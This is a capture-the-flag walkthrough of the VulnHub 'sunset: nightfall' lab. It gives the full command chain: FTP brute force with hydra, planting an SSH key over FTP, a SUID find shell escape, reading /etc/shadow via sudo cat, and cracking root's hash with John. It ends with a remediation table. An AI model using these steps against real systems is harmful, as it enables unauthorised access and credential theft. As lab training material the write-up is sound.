

# sunset: nightfall — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.24 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Author** | whitecr0wz |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/sunset-nightfall,355/) |

## Attack Summary

`enum4linux` → `hydra` FTP brute (matt) → SSH key injection → SUID `find` → shell as nightfall → `sudo cat /etc/shadow` → John cracks root hash → root

## Methodology

1. Network discovery and port scan
2. SMB enumeration for usernames
3. FTP brute force
4. SSH key injection via FTP
5. SUID binary abuse (lateral move to nightfall)
6. sudo cat to read shadow → hash crack → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.24
```

Ports open: 21 (FTP / pyftpdlib), 22 (SSH), 80 (HTTP), 139/445 (SMB).


---

## Step 2: SMB Enumeration

```bash
enum4linux 192.168.0.24
```

Users found: **matt**, **nightfall**


---

## Step 3: FTP Brute Force

```bash
hydra -l matt -P /usr/share/wordlists/rockyou.txt 192.168.0.24 ftp -e nsr
```

Credentials obtained: `matt:<password_from_hydra>`


---

## Step 4: SSH Key Injection via FTP

Generate an SSH key pair, then upload the public key as matt's `authorized_keys`:

```bash
ssh-keygen -t rsa -f /tmp/nightfall_key -N ""
cp /tmp/nightfall_key.pub /tmp/authorized_keys

ftp 192.168.0.24
# login as matt
ftp> mkdir .ssh
ftp> put /tmp/authorized_keys .ssh/authorized_keys
ftp> bye

ssh -i /tmp/nightfall_key matt@192.168.0.24
```

---

## Step 5: SUID Binary — Lateral Move to nightfall

```bash
find / -perm -u=s -type f 2>/dev/null
```

`/script/find` has the SUID bit set and is owned by nightfall.

```bash
/script/find . -exec /bin/sh -p \; -quit
```

Shell spawned as **nightfall**.



---

## Step 6: Privilege Escalation — sudo cat → Shadow Hash

Inject SSH key for nightfall (same FTP approach), then SSH in:

```bash
sudo -l
# nightfall may run: (root) NOPASSWD: /bin/cat

sudo -u root cat /etc/shadow
```

Copy root's hash, crack with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt root_hash.txt
# Result: <cracked_password>

su root
cat /root/flag.txt
```


---

## Lessons Learned

1. **FTP credential reuse** — pyftpdlib serving homedirectories allows key injection even without SSH write access directly
2. **SUID on custom binaries** — non-standard binaries with SUID are prime privesc targets; always `find / -perm -4000`
3. **sudo cat** — reading sensitive files like `/etc/shadow` via sudo is as dangerous as a shell — combine with hash cracking

## Remediation

| Vulnerability | Fix |
|---|---|
| FTP brute-forceable credentials | Disable FTP or enforce key-only auth; use fail2ban |
| SUID on `/script/find` | Remove SUID bit: `chmod u-s /script/find` |
| sudo cat on shadow | Remove unnecessary sudo rules; audit `/etc/sudoers` |
| Weak root password | Enforce strong password policy; disable root login |
